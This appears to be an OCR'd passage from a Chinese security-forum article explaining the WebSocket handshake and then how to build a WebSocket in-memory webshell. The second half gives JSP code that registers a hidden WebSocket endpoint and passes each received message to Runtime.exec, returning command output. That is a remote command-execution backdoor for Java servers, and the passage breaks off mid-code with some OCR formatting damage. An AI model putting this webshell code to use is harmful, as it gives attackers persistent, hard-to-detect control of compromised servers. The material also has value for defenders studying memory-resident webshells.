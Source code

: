 > Connection: Upgrade 告诉服务器在完成请求处理后是否关闭网络连接，通常设置为"Upgrade"。  
> Upgrade: websocket 代表客户端希望连接升级为WebSocket  
> Sec-WebSocket-Version: 13 表示支持的`Websocket`版本  
> Sec-WebSocket-Key 随机Base64字符串，客户端生成，用于计算WebSocket握手响应头中的`Sec-WebSocket-Accept`参数。
> 
> ```http
> 
> HTTP/1.1 101 
> Upgrade: websocket
> Connection: upgrade
> Sec-WebSocket-Accept: khS5aCquONx7ftXbdnk5uvMdqmQ=
> Date: Thu, 20 Jul 2023 04:01:10 GMT
> ```

```php
 > 响应码101 表示协议切换成功
 > Upgrade: websocket 表示服务器同意协议切换，将HTTP协议切换到WebSocket协议
 > Connection: upgrade 表示服务器同意在完成请求处理后保持网络连接打开。
 > Sec-WebSocket-Accept 是`Sec-WebSocket-Key`参数经过计算得出的值，用于确认握手过程是否成功。

5.  发送请求
```js
socket.send("I am Mechoy.");
```

![3.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-9782bdcbd1f3cd5ba10d2e527a03d83e0abb7306.png)  
![4.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-c44000dc80f73f07add50f4dbd60c19294dbd3a2.png)

6. 关闭连接 ```js
    socket.close();
    ```
    
    不使用`@ServerEndpoint`注解的写法，就结束了

### 0x02 WebSocket内存马的实现

#### JSP实现

其实到这里，就已经能写出来使用JSP动态注入WebSocket的代码了，比如

```jsp
<%@ page import="javax.websocket.server.ServerContainer" %>
<%@ page import="javax.websocket.server.ServerEndpointConfig" %>
<%@ page import="javax.websocket.*" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<html>
<head>
    <title>JSP动态注入WebSocket</title>
</head>
<body>
<%!
    public static class WSEndpointShell extends Endpoint {
        @Override
        public void onOpen(javax.websocket.Session session, EndpointConfig endpointConfig) {
             final javax.websocket.Session s = session;
            session.addMessageHandler(new MessageHandler.Partial<String>() {
                @Override
                public void onMessage(String message, boolean last) {
                    try {
                        Process process = Runtime.getRuntime().exec(message);
                        BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
                        StringBuilder output = new StringBuilder();
                        String line;
```